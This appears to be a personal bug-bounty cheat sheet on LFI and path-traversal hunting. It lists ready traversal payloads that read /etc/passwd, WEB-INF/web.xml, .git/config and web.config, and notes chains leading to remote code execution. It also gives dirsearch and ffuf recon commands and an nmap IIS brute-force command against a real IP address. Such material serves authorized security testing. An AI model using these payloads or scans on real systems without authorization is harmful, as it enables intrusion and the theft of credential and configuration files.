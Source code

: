 ##### Chain bug
- LFI to credential disclose to Auth bypass to RCE
- LFI to git then RCE
- LFI to SSH path read then RCE
- LFI to `web.config`(IIS)
##### Eg
```
previewFilePath=/etc/passwd
fileName=/WEB-INF/web.xml
download?fileName=/WEB-INF/web.xml
fileName=/META-INF/
editorImpl=../../../WEB-INF/web.xml
nextPageName=..%2f..%2f..%2fWEB-INF%2fweb.xml
../.git/config
../etc/passwd
/..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd
fileName=../../web.config
DownloadCategoryExcel?fileName=../../global.asax
DownloadCategoryExcel?fileName=../../bin/Company.Web.Api.dll
```
##### Dirsearch
- Run
```
cd /Users/rahulacharya/Tools/dirsearch
python3 -m venv path/to/venv
source path/to/venv/bin/activate
```
- command 1
```
python3 dirsearch.py -u "https://payouts.paypal.com/hw2web/dashboard" -x 400,404,406 --exclude-sizes=246B
```
#####  FFUF
###  Technolog
###### JAVA
- extension
```
xhtml, htm, jsp, do, html, jsf, jsp, cgi, xml, zip, 7z, txt, csv
```
###### IIS
- extension
```
dll, exe, xml, aspx, asp, asmx, ashx, html, zip, 7z, txt, csv
```
- find iis using nmap this command 
	- `nmap -p80 --script http-iis-short-name-brute 71.167.30.116`
	- also namp RDP (is RDP open in any subs then it's IIS)
###### PHP
- extension
```
php, php3, PhP, zip, 7z, txt, csv
```
###### VHOST
- Command
```
curl "https://example.com" -H "Host: example"
```
- eg. below error
![[Pasted image 20250714071245.png]]
##### Resources
- [Path traversal on U.S. Dept Of Defense](https://hackerone.com/reports/217344)
- [Local File Inclusion In Registration Page](https://hackerone.com/reports/1007799)
- [Bitmoji source code is accessible](https://hackerone.com/reports/301812)
- [A Journey of Limited Path Traversal To RCE With $40,000 Bounty!](https://medium.com/@HX007/a-journey-of-limited-path-traversal-to-rce-with-40-000-bounty-fc63c89576ea)
- [TOPFILEREADING](https://github.com/reddelexc/hackerone-reports/blob/master/tops_by_bug_type/TOPFILEREADING.md)
- https://medium.com/@mudasserhussain1111/hacking-microsoft-iis-enumerating-iis-for-v-39de5a27f101
